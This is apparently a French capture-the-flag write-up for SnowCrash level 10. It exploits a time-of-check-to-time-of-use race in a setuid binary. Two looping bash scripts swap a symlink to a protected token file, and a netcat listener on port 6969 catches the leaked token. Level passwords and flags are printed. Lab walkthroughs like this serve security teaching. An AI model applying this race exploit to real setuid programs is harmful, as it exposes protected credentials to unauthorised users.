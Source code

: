 # Level10: Exploit spam access

> login:password -> *`level10:s5cAJpM8ev6XHw998pRWG728z`*
```
:~$ su level10
Password:s5cAJpM8ev6XHw998pRWG728z
```
---

```
:~$ pwd
/home/user/level10
```

```
:~$ ls -la
...
-rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10
-rw-------  1 flag10  flag10     26 Mar  5  2016 token
...
```

Le Home contient un binaire et un fichier token :

```
:~$ ./level10
./level10 file host
  sends file to host if you have access to it

:~$ ./level10 token localhost
You don't have access to token

:~$ ./level10 .profile localhost
Connecting to localhost:6969 .. Unable to connect to host localhost
```

L'usage nous indique que le binaire envoi un fichier, mais uniquement si on possède les droits sur ce dernier.
En regardant du côté de la commande `strings level10` :

```
...
Connecting to %s:6969 ..
...
open
...
access
...
```

On remarque que le programme se connecte sur le port `:6969` et utilise `open` et `access`.\
Nous pouvons dés lors, profiter d'une faille d'access afin d'y récupérer le token (On profite du temps qu'il prends entre le check des droits et l'ouverture du fichier. man access).\
Pour ce faire nous allons utiliser 2 scripts qui utilise la technique du 'spam' :

- 1er script - Qui va essayer d'envoyer le fichier /tmp/link sur le localhost (ici `192.168.56.101`)
```
#!/bin/bash
while true;
do
	~/level10 /tmp/link 192.168.56.101
done
```

- 2e script - Qui va supprimer le fichier /tmp/link sur le localhost, le créer et y faire un lien symbolique avec le token présent sur le Home.
```
#!/bin/bash
while true;
do
	rm -f /tmp/link
	touch /tmp/link
	ln -fs ~/token /tmp/link
done
```

> Il est possible d'envoyer nos scripts directement dans notre user /tmp, grâce à la commande suivante :
> scp -P 4242 [file_name] level10@192.168.56.101:/tmp

```
:~$ pwd
[...]/snowcrash/level10/Ressources

:~$ ls
README.md  script1.sh script2.sh

:~$ scp -P 4242 script1.sh level10@192.168.56.101:/tmp
[...]
level10@192.168.56.101's password:
script1.sh // 100%   67   173.1KB/s   00:00

:~$ scp -P 4242 script2.sh level10@192.168.56.101:/tmp
[...]
level10@192.168.56.101's password:
script2.sh // 100%   67   173.1KB/s   00:00
```

Une fois les scripts téléchargés et lancés, il ne nous reste plus qu'à écouter les transfert avec la commande netcat `nc -lk` (`l` pour écouter & `k` pour conserver la connexion) sur le port de connexion `:6969`, pour obtenir le token.

```
:~$ nc -lk 6969
...
.*( )*.
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
^C

```

Il nous suffit maintenant de nous connecter sur l'user `flag10` avec le résultat obtenu puis de lancer un `getflag`

```
:~$ su flag10
Password:woupa2yuojeeaaed06riuj63c
Don't forget to launch getflag !

:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```

Le flag nous permet de se connecter au level11
`level11:feulo4b72j7edeahuete3no7c`